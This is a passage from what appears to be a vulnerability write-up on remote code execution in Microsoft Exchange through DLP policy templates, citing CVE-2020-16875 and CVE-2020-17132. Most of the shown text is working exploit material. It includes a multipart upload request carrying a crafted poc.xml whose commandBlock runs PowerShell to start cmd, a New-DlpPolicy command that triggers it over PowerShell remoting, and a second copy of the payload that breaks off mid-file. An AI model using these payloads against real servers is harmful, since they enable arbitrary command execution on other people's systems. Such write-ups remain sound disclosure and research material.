 ```
Content-Disposition: form-data; name="ctl00$ResultPanePlaceHolder$senderBtn"

ResultPanePlaceHolder_ButtonsPanel_btnNext
-----------------------------129510176238983759443570320270
Content-Disposition: form-data; name="ctl00$ResultPanePlaceHolder$contentContainer$upldCtrl"; filename="poc.xml"

<?xml version="1.0" encoding="UTF-8"?>
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>360VulcanTeam</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <![CDATA[ $i=New-object System.Diagnostics.ProcessStartInfo;$i.UseShellExecute=$true;$i.FileName="cmd";$i.Arguments="/c mspaint";$r=New-Object System.Diagnostics.Process;$r.StartInfo=$i;$r.Start() ]]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>
-----------------------------129510176238983759443570320270
Content-Disposition: form-data; name="ctl00$ResultPanePlaceHolder$contentContainer$name"

360VulcanTeam
-----------------------------129510176238983759443570320270--
```

#### Exploitation via Powershell

The actual poc after connecting to the server via ps-remoting was as simple as running:

```ps
`New-DlpPolicy -Name "360VulcanTeam" -TemplateData ([Byte[]](Get-Content -Encoding Byte -Path "C:\path\to\some\poc.xml" -ReadCount 0))`
```

...and the corresponding `poc.xml` payload I used execute a system command:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>360VulcanTeam</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
```

[^1]: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-16875](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-16875)
[^2]: [https://office365itpros.com/2019/10/24/office-365-hits-200-million-monthly-active-users/](https://office365itpros.com/2019/10/24/office-365-hits-200-million-monthly-active-users/)
[^3]: [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.1)
[^4]: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17132](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17132)
[^5]: [https://en.wikipedia.org/wiki/Software_as_a_service](https://en.wikipedia.org/wiki/Software_as_a_service)